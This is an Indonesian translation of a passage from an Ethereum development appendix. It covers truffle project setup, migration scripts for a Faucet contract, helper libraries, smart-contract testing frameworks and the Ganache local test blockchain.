Kita juga akan menggunakan sejumlah paket pendukung JavaScript (Node.js), selain `truffle` itu sendiri. Kita dapat menginstalnya dengan `npm`. Kita menginisialisasi struktur direktori `npm` dan menerima default yang disarankan oleh `npm`:

```sh
$ npm init
package name: (faucet)
version: (1.0.0)
description:
entry point: (truffle-config.js)
test command:
git repository:
keywords:
author:
license: (ISC)
About to write to Faucet/package.json:
{
  "name": "faucet",
  "version": "1.0.0",
  "description": "",
  "main": "truffle-config.js",
  "directories": {
    "test": "test"
  },
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC"
}
Is this ok? (yes)
```

Sekarang, kita dapat menginstal dependensi yang akan kita gunakan untuk mempermudah bekerja dengan `truffle`:

```sh
$ npm install dotenv truffle-wallet-provider ethereumjs-wallet
```

Kita sekarang memiliki direktori `node_modules` dengan beberapa ribu file di dalam direktori `Faucet` kita.

> Sebelum men-deploy DApp ke lingkungan produksi cloud atau integrasi berkelanjutan (*continuous integration*), penting untuk menentukan kolom `engines` agar DApp Anda dibangun dengan versi Node.js yang benar dan dependensi terkaitnya diinstal. Untuk detail tentang mengonfigurasi kolom ini, lihat dokumentasi.

#### Mengonfigurasi truffle

`truffle` membuat beberapa file konfigurasi kosong, `truffle.js` dan `truffle-config.js`. Pada sistem Windows, nama `truffle.js` dapat menyebabkan konflik ketika Anda mencoba menjalankan perintah `truffle` dan Windows malah mencoba menjalankan `truffle.js`. Untuk menghindari ini, kita akan menghapus `truffle.js` dan menggunakan `truffle-config.js` (untuk mendukung pengguna Windows, yang, sejujurnya, sudah cukup menderita):

```sh
$ rm truffle.js
```

Sekarang kita edit `truffle-config.js` dan ganti isinya dengan contoh konfigurasi yang ditunjukkan di sini:

```javascript
module.exports = {
  networks: {
    localnode: { // Jaringan apa pun yang terhubung dengan node lokal kita
      network_id: "*", // Cocokkan dengan ID jaringan apa pun
      host: "localhost",
      port: 8545,
    }
  }
};
```

Konfigurasi ini adalah titik awal yang baik. Ini menyiapkan satu jaringan Ethereum default (bernama `localnode`), yang mengasumsikan kita menjalankan klien Ethereum seperti Parity, baik sebagai node penuh maupun sebagai klien ringan. Konfigurasi ini akan menginstruksikan `truffle` untuk berkomunikasi dengan node lokal melalui RPC, di port 8545. `truffle` akan menggunakan jaringan Ethereum apa pun yang terhubung dengan node lokal, seperti jaringan utama Ethereum, atau jaringan uji seperti Ropsten. Node lokal juga akan menyediakan fungsionalitas dompet.

Di bagian berikutnya, kita akan mengonfigurasi jaringan tambahan untuk digunakan `truffle`, seperti *blockchain* uji lokal `ganache` dan Infura, penyedia jaringan yang di-*hosting*. Seiring kita menambahkan lebih banyak jaringan, file konfigurasi akan menjadi lebih kompleks, tetapi juga akan memberi kita lebih banyak opsi untuk alur kerja pengujian dan pengembangan kita.

#### Menggunakan truffle untuk men-deploy kontrak

Kita sekarang memiliki direktori kerja dasar untuk proyek `Faucet` kita, dan kita telah mengonfigurasi `truffle` dan dependensinya. Kontrak ditempatkan di subdirektori `contracts` dari proyek kita. Direktori tersebut sudah berisi kontrak “pembantu”, `Migrations.sol`, yang mengelola pemutakhiran kontrak untuk kita. Kita akan memeriksa penggunaan `Migrations.sol` di bagian berikutnya.

Mari kita salin kontrak `Faucet.sol` ke dalam subdirektori `contracts`, sehingga direktori proyek terlihat seperti ini:

```
Faucet
+---- contracts
|
+---- Faucet.sol
|
`---- Migrations.sol
...
```

Sekarang kita bisa meminta `truffle` untuk mengompilasi kontrak untuk kita:

```sh
$ truffle compile
Compiling ./contracts/Faucet.sol...
Compiling ./contracts/Migrations.sol...
Writing artifacts to ./build/contracts
```

#### Migrasi Truffle—memahami skrip deployment

Truffle menawarkan sistem *deployment* yang disebut **migrasi** (*migration*). Jika Anda pernah bekerja dengan kerangka kerja lain, Anda mungkin pernah melihat sesuatu yang serupa: Ruby on Rails, Python Django, dan banyak bahasa serta kerangka kerja lain memiliki perintah `migrate`.

Di semua kerangka kerja tersebut, tujuan migrasi adalah untuk menangani perubahan skema data antar versi perangkat lunak yang berbeda. Tujuan migrasi di Ethereum sedikit berbeda. Karena kontrak Ethereum tidak dapat diubah (*immutable*) dan memerlukan gas untuk di-*deploy*, Truffle menawarkan mekanisme migrasi untuk melacak kontrak mana (dan versi mana) yang telah di-*deploy*. Dalam proyek yang kompleks dengan puluhan kontrak dan dependensi yang rumit, Anda tidak ingin harus membayar untuk men-*deploy* ulang kontrak yang tidak berubah. Anda juga tidak ingin secara manual melacak versi kontrak mana yang telah di-*deploy*. Mekanisme migrasi Truffle melakukan semua itu dengan men-*deploy smart contract* `Migrations.sol`, yang kemudian melacak semua *deployment* kontrak lainnya.

Kita hanya memiliki satu kontrak, `Faucet.sol`, yang berarti sistem migrasi ini berlebihan, setidaknya. Sayangnya, kita harus menggunakannya. Tetapi, dengan belajar cara menggunakannya untuk satu kontrak, kita dapat mulai mempraktikkan beberapa kebiasaan baik untuk alur kerja pengembangan kita. Upaya ini akan terbayar seiring dengan semakin rumitnya hal-hal.

Direktori `migrations` Truffle adalah tempat skrip migrasi ditemukan. Saat ini hanya ada satu skrip, `1_initial_migration.js`, yang men-*deploy* kontrak `Migrations.sol` itu sendiri:

```javascript
1 var Migrations = artifacts.require("./Migrations.sol");
2
3 module.exports = function(deployer) {
4   deployer.deploy(Migrations);
5 };
```

Kita membutuhkan skrip migrasi kedua, untuk men-*deploy* `Faucet.sol`. Mari kita sebut `2_deploy_contracts.js`. Skrip ini sangat sederhana, sama seperti `1_initial_migration.js`, dengan hanya beberapa perubahan kecil. Bahkan, Anda dapat menyalin isi dari `1_initial_migration.js` dan cukup ganti semua kemunculan `Migrations` dengan `Faucet`:

```javascript
1 var Faucet = artifacts.require("./Faucet.sol");
2
3 module.exports = function(deployer) {
4   deployer.deploy(Faucet);
5 };
```

Skrip ini menginisialisasi variabel `Faucet`, mengidentifikasi kode sumber Solidity `Faucet.sol` sebagai artefak yang mendefinisikan `Faucet`. Kemudian ia memanggil fungsi `deploy` untuk men-*deploy* kontrak ini.

Kita sudah siap. Mari kita gunakan `truffle migrate` untuk men-*deploy*-nya. Kita harus menentukan jaringan mana untuk men-*deploy* kontrak, menggunakan argumen `--network`. Kita hanya memiliki satu jaringan yang ditentukan dalam file konfigurasi, yang kita beri nama `localnode`. Pastikan klien Ethereum lokal Anda berjalan lalu ketik:

```sh
Faucet $ truffle migrate --network localnode
```

Karena kita menggunakan node lokal untuk terhubung ke jaringan Ethereum dan mengelola dompet kita, kita harus mengotorisasi transaksi yang dibuat oleh `truffle`. Kita menjalankan `parity` yang terhubung ke *blockchain* uji Ropsten, jadi selama migrasi kita akan melihat *pop-up* seperti yang ada di Gambar D-1 di konsol web Parity.

<p align="center">
  
</p>

Tentu, ini adalah terjemahan dan format yang telah dirapikan untuk bagian terakhir dari lampiran.

-----

Meskipun saat ini masih dalam pengembangan, **ZeppelinOS** bertujuan untuk menyediakan serangkaian fitur tambahan yang luas, seperti alat pengembang, **penjadwal (*scheduler*)** yang mengotomatiskan operasi latar belakang di dalam kontrak, **sayembara (*bounties*)** pengembangan, **pasar (*marketplace*)** yang memfasilitasi komunikasi dan pertukaran nilai antar aplikasi, dan masih banyak lagi. Semua ini dijelaskan dalam *whitepaper* ZeppelinOS.

-----

## Utilitas

### EthereumJS helpeth: Utilitas Baris Perintah

  * **GitHub**: [https://github.com/ethereumjs/helpeth](https://github.com/ethereumjs/helpeth)

**helpeth** adalah alat baris perintah untuk manipulasi kunci dan transaksi yang membuat pekerjaan pengembang menjadi jauh lebih mudah.

Alat ini merupakan bagian dari koleksi pustaka dan alat berbasis JavaScript dari EthereumJS:

```
Penggunaan: helpeth [perintah]

Perintah:
  signMessage <pesan>                       Menandatangani sebuah pesan
  verifySig <hash> <sig>                    Memverifikasi tanda tangan
  verifySigParams <hash> <r> <s> <v>        Memverifikasi parameter tanda tangan
  createTx <nonce> <ke> <nilai> <data>      Menandatangani sebuah transaksi
    <gasLimit> <gasPrice>
  assembleTx <nonce> <ke> <nilai> <data>    Merakit transaksi dari
    <gasLimit> <gasPrice> <v> <r> <s>         komponen-komponennya
  parseTx <tx>                              Mengurai transaksi mentah
  keyGenerate [format] [icapdirect]         Membuat kunci baru
  keyConvert                                Mengonversi kunci ke format keystore V3
  keyDetails                                Mencetak detail kunci
  bip32Details <path>                       Mencetak detail kunci untuk path tertentu
  addressDetails <alamat>                   Mencetak detail tentang sebuah alamat
  unitConvert <nilai> <dari> <ke>           Mengonversi antar unit Ethereum

Opsi:
  -p, --private         Kunci privat sebagai string heksadesimal      [string]
  --password            Kata sandi untuk kunci privat                 [boolean]
  --password-prompt     Meminta kata sandi kunci privat               [string]
  -k, --keyfile         File kunci yang di-encode                     [boolean]
  --show-private        Menampilkan detail kunci privat               [string]
  --mnemonic            Mnemonic untuk derivasi kunci HD              [boolean]
  --version             Menampilkan nomor versi                       [boolean]
  --help                Menampilkan bantuan                           [boolean]
```

### dapp.tools

  * **Situs Web**: [https://dapp.tools/](https://dapp.tools/)

**dapp.tools** adalah serangkaian lengkap alat pengembang berorientasi *blockchain* yang dibuat dalam semangat **filsafat Unix**. Alat-alat yang disertakan adalah:

  * **Dapp**
    Dapp adalah alat dasar yang dihadapi pengguna, untuk membuat DApps baru, menjalankan uji unit Solidity, men-debug dan men-*deploy* kontrak, meluncurkan *testnet*, dan banyak lagi.
  * **Seth**
    Seth digunakan untuk menyusun transaksi, membuat kueri ke *blockchain*, mengonversi antar format data, melakukan panggilan jarak jauh, dan tugas sehari-hari serupa.
  * **Hevm**
    Hevm adalah implementasi EVM Haskell dengan *debugger* Solidity berbasis terminal yang gesit. Ini digunakan untuk menguji dan men-debug DApps.
  * **evmdis**
    evmdis adalah *disassembler* EVM; ia melakukan analisis statis pada *bytecode* untuk memberikan tingkat abstraksi yang lebih tinggi daripada operasi EVM mentah.

### SputnikVM

**SputnikVM** adalah mesin virtual *pluggable* mandiri untuk berbagai *blockchain* berbasis Ethereum. Ditulis dalam Rust dan dapat digunakan sebagai biner, *cargo crate*, atau pustaka bersama, atau diintegrasikan melalui antarmuka FFI, Protobuf, dan JSON. Ia memiliki biner terpisah, `sputnikvm-dev`, yang ditujukan untuk tujuan pengujian, yang meniru sebagian besar API JSON-RPC dan penambangan blok.

-----

## Pustaka (*Libraries*)

### web3.js

**web3.js** adalah API JavaScript yang kompatibel dengan Ethereum untuk berkomunikasi dengan klien melalui JSON-RPC, yang dikembangkan oleh Ethereum Foundation.

  * **GitHub**: [https://github.com/ethereum/web3.js](https://github.com/ethereum/web3.js)
  * **Repositori npm**: [https://www.npmjs.com/package/web3](https://www.npmjs.com/package/web3)
  * **Dokumentasi (API 0.2x.x)**: [http://bit.ly/2Qcyq1C](http://bit.ly/2Qcyq1C)
  * **Dokumentasi (API 1.0.0-beta.xx)**: [http://bit.ly/2CT33p0](http://bit.ly/2CT33p0)

### web3.py

**web3.py** adalah pustaka Python untuk berinteraksi dengan *blockchain* Ethereum, yang dikelola oleh Ethereum Foundation.

  * **GitHub**: [https://github.com/ethereum/web3.py](https://github.com/ethereum/web3.py)
  * **PyPi**: [https://pypi.python.org/pypi/web3/4.0.0b9](https://pypi.python.org/pypi/web3/4.0.0b9)
  * **Dokumentasi**: [https://web3py.readthedocs.io/](https://web3py.readthedocs.io/)

### EthereumJS

**EthereumJS** adalah kumpulan pustaka dan utilitas untuk Ethereum.

  * **GitHub**: [https://github.com/ethereumjs](https://github.com/ethereumjs)
  * **Situs Web**: [https://ethereumjs.github.io/](https://ethereumjs.github.io/)

### web3j

**web3j** adalah pustaka Java dan Android untuk berintegrasi dengan klien Ethereum dan bekerja dengan *smart contract*.

  * **GitHub**: [https://github.com/web3j/web3j](https://github.com/web3j/web3j)
  * **Situs Web**: [https://web3j.io](https://web3j.io)
  * **Dokumentasi**: [https://docs.web3j.io](https://docs.web3j.io)

### EtherJar

**EtherJar** adalah pustaka Java lain untuk berintegrasi dengan Ethereum dan bekerja dengan *smart contract*. Dirancang untuk proyek sisi server berbasis Java 8+ dan menyediakan akses tingkat rendah serta pembungkus tingkat tinggi di sekitar RPC, struktur data Ethereum, dan akses *smart contract*.

  * **GitHub**: [https://github.com/infinitape/etherjar](https://github.com/infinitape/etherjar)

### Nethereum

**Nethereum** adalah pustaka integrasi .Net untuk Ethereum.

  * **GitHub**: [https://github.com/Nethereum/Nethereum](https://github.com/Nethereum/Nethereum)
  * **Situs Web**: [http://nethereum.com/](http://nethereum.com/)
  * **Dokumentasi**: [https://nethereum.readthedocs.io/en/latest/](https://nethereum.readthedocs.io/en/latest/)

### ethers.js

Pustaka **ethers.js** adalah pustaka Ethereum berlisensi MIT yang ringkas, lengkap, berfitur penuh, dan telah diuji secara ekstensif, yang telah menerima hibah DevEx dari Ethereum Foundation untuk perluasan dan pemeliharaannya.

  * **GitHub**: [https://github.com/ethers-io/ethers.js](https://github.com/ethers-io/ethers.js)
  * **Dokumentasi**: [https://docs.ethers.io](https://docs.ethers.io)

### Emerald Platform

**Emerald Platform** menyediakan pustaka dan komponen UI untuk membangun DApps di atas Ethereum. Emerald JS dan Emerald JS UI menyediakan serangkaian modul dan komponen React untuk membangun aplikasi dan situs web JavaScript; Emerald SVG Icons adalah seperangkat ikon terkait *blockchain*. Selain pustaka JavaScript, Emerald memiliki pustaka Rust untuk mengoperasikan kunci privat dan tanda tangan transaksi. Semua pustaka dan komponen Emerald dilisensikan di bawah Lisensi Apache, versi 2.0.

  * **GitHub**: [https://github.com/etcdevteam/emerald-platform](https://github.com/etcdevteam/emerald-platform)
  * **Dokumentasi**: [https://docs.etcdevteam.com](https://docs.etcdevteam.com)

-----

## Menguji Smart Contract

Ada beberapa kerangka kerja pengujian yang umum digunakan untuk pengembangan *smart contract*, yang dirangkum dalam Tabel D-1:

**Tabel D-1. Ringkasan kerangka kerja pengujian smart contract**
| Kerangka Kerja | Bahasa Uji | Kerangka Pengujian | Emulator Rantai | Situs Web |
| --- | --- | --- | --- | --- |
| Truffle | JavaScript/Solidity | Mocha | TestRPC/Ganache | [https://truffleframework.com/](https://truffleframework.com/) |
| Embark | JavaScript | Mocha | TestRPC/Ganache | [https://embark.status.im/docs/](https://embark.status.im/docs/) |
| Dapp | Solidity | ds-test (custom) | ethrun (Parity) | [https://dapp.tools/dapp/](https://dapp.tools/dapp/) |
| Populus | Python | pytest | Emulator rantai Python | [https://populus.readthedocs.io](https://populus.readthedocs.io) |

### Truffle

Truffle memungkinkan **uji unit (*unit tests*)** ditulis dalam JavaScript (berbasis Mocha) atau Solidity. Pengujian ini dijalankan terhadap Ganache.

### Embark

Embark terintegrasi dengan Mocha untuk menjalankan uji unit yang ditulis dalam JavaScript. Pengujian tersebut pada gilirannya dijalankan terhadap kontrak yang di-*deploy* di TestRPC/Ganache. Kerangka kerja Embark secara otomatis men-*deploy smart contract*, dan akan secara otomatis men-*deploy* ulang kontrak ketika diubah. Ia juga melacak kontrak yang telah di-*deploy* dan hanya men-*deploy* kontrak bila benar-benar diperlukan. Embark menyertakan pustaka pengujian untuk menjalankan dan menguji kontrak Anda dengan cepat di EVM, dengan fungsi seperti `assert.equal`. Perintah `embark test` akan menjalankan file pengujian apa pun di bawah direktori `test`.

### Dapp

Dapp menggunakan kode Solidity asli (pustaka bernama `ds-test`) dan pustaka Rust buatan Parity bernama `ethrun` untuk mengeksekusi *bytecode* Ethereum dan kemudian menegaskan kebenarannya. Pustaka `ds-test` menyediakan **fungsi asersi** untuk memvalidasi kebenaran dan *event* untuk mencatat data di konsol.

Fungsi asersi meliputi:

```solidity
assert(bool condition)
assertEq(address a, address b)
assertEq(bytes32 a, bytes32 b)
assertEq(int a, int b)
assertEq(uint a, uint b)
assertEq0(bytes a, bytes b)
expectEventsExact(address target)
```

Perintah *logging* akan mencatat informasi ke konsol, membuatnya berguna untuk *debugging*:

```solidity
logs(bytes)
log_bytes32(bytes32)
log_named_bytes32(bytes32 key, bytes32 val)
log_named_address(bytes32 key, address val)
log_named_int(bytes32 key, int val)
log_named_uint(bytes32 key, uint val)
log_named_decimal_int(bytes32 key, int val, uint decimals)
log_named_decimal_uint(bytes32 key, uint val, uint decimals)
```

### Populus

Populus menggunakan Python dan emulator rantainya sendiri untuk menjalankan kontrak yang ditulis dalam Solidity. Uji unit ditulis dalam Python dengan pustaka `pytest`. Populus mendukung penulisan kontrak khusus untuk pengujian. Nama file kontrak ini harus cocok dengan pola glob `Test*.sol` dan terletak di mana saja di bawah direktori `tests` proyek.

### Pengujian di Blockchain

Meskipun sebagian besar pengujian tidak boleh terjadi pada kontrak yang telah di-*deploy*, perilaku kontrak dapat diperiksa melalui klien Ethereum. Perintah berikut dapat digunakan untuk menilai *state smart contract*. Perintah-perintah ini harus diketik di terminal `geth`, meskipun konsol web3 apa pun juga akan mendukungnya.

Untuk mendapatkan alamat kontrak di `txhash`, gunakan:

```javascript
eth.getTransactionReceipt(txhash);
```

Perintah ini mendapatkan kode kontrak yang di-*deploy* di `contractaddress`; ini dapat digunakan untuk memverifikasi *deployment* yang benar:

```javascript
eth.getCode(contractaddress)
```

Ini mendapatkan log penuh dari kontrak yang terletak di alamat yang ditentukan dalam `options`, yang berguna untuk melihat riwayat panggilan kontrak:

```javascript
eth.getPastLogs(options)
```

Terakhir, perintah ini mendapatkan penyimpanan yang terletak di `address` dengan *offset* `position`:

```javascript
eth.getStorageAt(address, position)
```

-----

## Ganache: Blockchain Uji Lokal

**Ganache** adalah *blockchain* uji lokal yang dapat Anda gunakan untuk men-*deploy* kontrak, mengembangkan aplikasi, dan menjalankan pengujian. Tersedia sebagai aplikasi desktop (dengan antarmuka pengguna grafis) untuk Windows, macOS, dan Linux. Juga tersedia sebagai utilitas baris perintah bernama `ganache-cli`. Untuk detail lebih lanjut dan instruksi instalasi aplikasi desktop Ganache, lihat [https://truffleframework.com/ganache](https://truffleframework.com/ganache).

Kode `ganache-cli` dapat ditemukan di [https://github.com/trufflesuite/ganache-cli/](https://github.com/trufflesuite/ganache-cli/).

Untuk menginstal `ganache-cli` baris perintah, gunakan `npm`:

```sh
$ npm install -g ganache-cli
```

Anda dapat menggunakan `ganache-cli` untuk memulai *blockchain* lokal untuk pengujian sebagai berikut:

```sh
$ ganache-cli \
--networkId=3 \
--port="8545" \
--verbose \
--gasLimit=8000000 \
--gasPrice=4000000000;
```

Beberapa catatan tentang baris perintah ini:

  * Periksa nilai *flag* `--networkId` dan `--port` cocok dengan konfigurasi Anda di `truffle.js`.
  * Periksa nilai *flag* `--gasLimit` cocok dengan batas gas *mainnet* terbaru (misalnya, 8.000.000 gas) yang ditampilkan di [https://ethstats.net](https://ethstats.net) untuk menghindari pengecualian “*out of gas*” yang tidak perlu. Perhatikan bahwa `--gasPrice` sebesar `4000000000` mewakili harga gas 4 gwei.
  * Anda dapat secara opsional memasukkan nilai *flag* `--mnemonic` untuk memulihkan **dompet HD** sebelumnya dan alamat terkait.
  
---

